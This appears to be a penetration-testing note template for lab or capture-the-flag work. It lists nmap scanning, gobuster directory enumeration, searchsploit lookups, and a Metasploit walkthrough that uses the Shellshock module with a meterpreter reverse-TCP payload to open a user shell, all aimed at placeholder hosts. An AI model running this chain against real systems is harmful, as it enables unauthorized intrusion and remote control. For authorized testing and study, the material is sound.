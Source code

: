 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- 192.168.0.1
  # rename-tab
sudo vim /etc/hosts
```

## gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://example/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://example/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

## example-vector

## post enum

```sh
ps aux
sudo -l
```

## privilege escalation

```sh
```

## msf

```msfconsole
msf> search example
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS example
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
